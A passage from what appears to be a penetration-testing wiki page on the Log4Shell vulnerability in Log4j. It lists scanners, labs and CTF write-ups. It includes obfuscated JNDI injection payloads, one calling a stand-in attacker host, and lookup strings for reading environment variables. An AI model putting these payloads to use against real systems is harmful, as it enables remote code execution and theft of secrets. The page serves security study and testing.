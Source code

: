 ```
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
```
### Automatic Scanners

- [[https://github.com/fullhunt/log4j-scan|https://github.com/fullhunt/log4j-scan]]
- [[https://github.com/adilsoybali/Log4j-RCE-Scanner|https://github.com/adilsoybali/Log4j-RCE-Scanner]]
- [[https://github.com/silentsignal/burp-log4shell|https://github.com/silentsignal/burp-log4shell]]
- [[https://github.com/cisagov/log4j-scanner|https://github.com/cisagov/log4j-scanner]]
- [[https://github.com/Qualys/log4jscanwin|https://github.com/Qualys/log4jscanwin]]
- [[https://github.com/hillu/local-log4j-vuln-scanner|https://github.com/hillu/local-log4j-vuln-scanner]]
- [[https://github.com/logpresso/CVE-2021-44228-Scanner|https://github.com/logpresso/CVE-2021-44228-Scanner]]
- [[https://github.com/palantir/log4j-sniffer|https://github.com/palantir/log4j-sniffer]] - Find local vulnerable libraries

### Labs to test

- [[https://app.hackthebox.com/tracks/UHC-track|**LogForge HTB machine**]]
- [[https://tryhackme.com/room/solar|**Try Hack Me Solar room**]]
- [[https://github.com/leonjza/log4jpwn|**https://github.com/leonjza/log4jpwn**]]
- [[https://github.com/christophetd/log4shell-vulnerable-app|**https://github.com/christophetd/log4shell-vulnerable-app**]]

## Post-Log4Shell Exploitation

In this [[https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/|**CTF writeup**]] is well explained how it's potentially **possible** to **abuse** some features of **Log4J**.

The [[https://logging.apache.org/log4j/2.x/security.html|**security page**]] of Log4j has some interesting sentences:

> From version 2.16.0 (for Java 8), the **message lookups feature has been completely removed**. **Lookups in configuration still work**. Furthermore, Log4j now disables access to JNDI by default. JNDI lookups in configuration now need to be enabled explicitly.

> From version 2.17.0, (and 2.12.3 and 2.3.1 for Java 7 and Java 6), **only lookup strings in configuration are expanded recursively**; in any other usage, only the top-level lookup is resolved, and any nested lookups are not resolved.

This means that by default you can **forget using any `jndi` exploit**. Moreover, to perform **recursive lookups** you need to have them configure.

For example, in that CTF this was configured in the file log4j2.xml:

```xml
<Console name="Console" target="SYSTEM_ERR">
    <PatternLayout pattern="%d{HH:mm:ss.SSS} %-5level %logger{36} executing ${sys:cmd} - %msg %n">
    </PatternLayout>
</Console>
```
```
### Env Lookups

In [[https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/|this CTF]] the attacker controlled the value of `${sys:cmd}` and needed to exfiltrate the flag from an environment variable.\
As seen in this page in [[jndi-java-naming-and-directory-interface-and-log4shell.md#verification|**previous payloads**]] there are different some ways to access env variables, such as: **`${env:FLAG}`**. In this CTF this was useless but it might not be in other real life scenarios.

### Exfiltration in Exceptions
```